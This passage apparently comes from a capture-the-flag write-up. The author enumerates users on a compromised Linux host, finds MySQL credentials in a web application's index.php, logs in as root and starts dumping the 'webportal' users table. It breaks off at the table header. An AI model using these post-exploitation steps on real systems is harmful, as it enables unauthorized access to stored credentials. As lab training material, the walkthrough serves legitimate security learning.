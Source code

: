 ```highlight
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        <?php }
?>
</body>
</html>
```

I can see 3 users 'aurick', 'apaar' and 'anurodh' however I could only access apaar's directory but couldn't read any files. I went back to /var/www to enumerate further and found the directory 'files'. Looking at index.php I found a mysql username and password. 

```highlight
$ mysql -u root -p
mysql -u root -p
Enter password: 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;                                            
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal;
use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
```